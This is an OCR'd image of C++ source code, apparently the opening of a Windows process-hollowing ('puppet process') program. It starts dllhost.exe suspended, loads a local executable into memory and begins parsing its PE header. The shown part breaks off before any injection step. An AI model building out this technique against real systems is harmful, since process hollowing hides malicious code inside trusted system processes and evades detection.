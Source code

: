     #define EXE_PATH R"(C:\Users\admin\Desktop\code\傀儡进程\Debug\demo.exe)"  
      
    //int CALLBACK WinMain(  
    // HINSTANCE hInstance,  
    // HINSTANCE hPrevInstance,  
    // LPSTR lpCmdLine,  
    // int nCmdShow  
    //)  
    int main(void)  
    {  
      // 获取 32位dllhost.exe路径  
      char pickerHostPath[MAX_PATH] = { 0 };  
      ExpandEnvironmentStringsA("%SystemRoot%\\SysWOW64\\dllhost.exe", pickerHostPath, MAX_PATH);  
      
      // 打开进程  
      STARTUPINFOA si = { sizeof(STARTUPINFOA) };  
      PROCESS_INFORMATION pi = { 0 };  
      if (!CreateProcessA(NULL, pickerHostPath, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi)) // 挂起形式创建  
      {  
        return -1;  
      }  
      
      std::cout << "process pid:" << pi.dwProcessId << std::endl;  
      std::cin.get();  
      
      // 打开文件  
      HANDLE hFile = CreateFileA(EXE_PATH, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);  
      if (hFile == INVALID_HANDLE_VALUE)  
      {  
        // 打开失败结束之前的进程  
        TerminateProcess(pi.hProcess, 1);  
        return -1;  
      }  
      
      // 获取文件的大小  
      DWORD nSizeOfFile = GetFileSize(hFile, NULL);  
      std::cout << "file size:" << nSizeOfFile << std::endl;  
      
      // 申请内存保存Exe字节码  
      char* image = (char*)VirtualAlloc(NULL, nSizeOfFile, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);  
      
      // 把文件读取到我们申请的缓存区  
      DWORD read;  
      if (!ReadFile(hFile, image, nSizeOfFile, &read, NULL))  
      {  
        TerminateProcess(pi.hProcess, 1);  
        return -1;  
      }  
      
      // 关闭文件  
      CloseHandle(hFile);  
      
      // 解析PE  
      // 获取dos头  
      PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)image;  
      if (dos->e_magic != IMAGE_DOS_SIGNATURE) // 判断是否为MZ  
      {  
        TerminateProcess(pi.hProcess, 1);  
        return 1;  
      }  
      